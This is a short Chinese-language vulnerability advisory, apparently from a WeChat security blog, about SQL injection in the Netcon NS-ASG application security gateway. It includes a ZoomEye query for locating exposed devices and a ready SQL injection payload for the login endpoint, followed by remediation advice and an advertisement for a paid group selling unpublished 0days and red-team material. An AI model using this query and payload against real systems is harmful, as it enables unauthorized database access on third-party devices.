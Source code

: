   

 **  
** **0x02  漏洞描述**

        SQL注入（SQLi）是一种网络安全漏洞，允许攻击者干扰应用程序对其数据库的查询。通过浏览器或者其他客户端将恶意SQL语句插入到网站参数中，而网站应用程序未对其进行过滤，SQL语句带入数据库使恶意SQL语句得以执行可以查看通常无法检索的数据。这可能包括属于其他用户的数据，或应用程序本身能够访问的任何其他数据。在许多情况下，攻击者可以修改或删除这些数据，从而导致应用程序的内容或行为发生持续变化。

‍

  

 **0x03  ZoomEye语法**

  * 

    
    
    title:"网康-NS-ASG-应用安全网关"

![]()

POC  

  * 

    
    
    check_username=123&check_username1=123&check_passwd=123&action=login_check&check_VirtualSiteId=1/**/and/**/updatexml(1,concat(0x7e,(md5(123))),3)#&imgcode=undefined&selvalue=2&BackgroundName=background.gif

![]()

  

 **0x04 修复建议**

1..对进入数据库的特殊字符（’”<>&*;等）进行转义处理，或编码转换。  

2.确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为int型。  

3.数据长度应该严格规定，能在一定程度上防止比较长的SQL注入语句无法正确执行。

4.避免网站显示SQL错误信息，比如类型错误、字段不匹配等，防止攻击者利用这些错误信息进行一些判断。  

5.过滤危险字符，例如：采用正则表达式匹配union、sleep、and、select、load_file等关键字，如果匹配到则终止运行。  

  

  

 **0x05  内部福利介绍**

 ** ** **
******需要加入内部知识星球可点击下方链接，内部包含但不限于网上未公开的1day/0day，2024最新企业SRC/CNVD/Edu实战挖掘技巧报告，红队外网打点、红队内网横向渗透。内部干货多及渗透思路很多，对新人友好，实战报告赏金几百到几千不等，加入圈子拥有FOFA、shadan、360Quake、ZoomEye、Hunter、CTFshow、Tide等等高级会员，安全培训教程，某机构红队教程，SRC挖掘培训课，SRC文档，武器库。
**圈子里面资料价值至少在10K以上，目前星球内部主题300+，资源2000+，其他和网盘资源1w+覆盖全网星球、纷传90%以上内容并持续更新中，越早加入价格越低**
。(详情点击下方地址了解-->>还是觉得价格贵的师傅后台回复"  **星球  **"有优惠券使用名额有限先到先得)

  

 **[点击了解-->>内部VIP知识星球福利介绍V1.2版本-
元旦优惠](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247484713&idx=1&sn=0fdab59445d9e0849843077365607b18&chksm=cf16a399f8612a8f6feb8362b1d946ea15ce4ff8a4a4cf0ce2c21f433185c622136b3c5725f3&scene=21#wechat_redirect)**
